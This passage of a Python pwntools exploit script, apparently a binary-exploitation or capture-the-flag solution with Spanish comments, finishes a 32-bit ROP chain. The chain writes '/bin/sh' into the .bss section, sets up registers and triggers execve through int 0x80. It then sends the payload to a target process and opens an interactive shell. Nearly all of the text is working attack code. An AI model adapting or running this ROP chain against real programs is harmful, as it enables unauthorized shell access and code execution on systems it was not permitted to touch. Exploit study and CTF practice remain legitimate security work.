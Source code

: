 ```python
        # Segunda Parte de "/bin/sh" en .bss
        POP_EDX_EBX,   BSS_ADDR + 4,   0x41414141,    # pop edx ; pop ebx ; ret
        POP_EAX,       PART2,                          # pop eax ; ret
        MOV_EDX_EAX,                                    # mov dword ptr [edx], eax ; ret

        # execve
        POP_EAX,       0xb,                            # pop eax ; ret
        POP_ECX,       0x0,                            # pop ecx ; ret
        POP_EDX_EBX,   0x0,            BSS_ADDR,       # pop edx ; pop ebx ; ret
        INT_0x80                                        # int 0x80
    ]
})


def main():
    p = conn()
    log.info(f'Payload length: {len(payload)} bytes')
    p.recvuntil(b'!')
    p.sendline(payload)
    p.interactive()

if __name__ == "__main__":
    main()
```
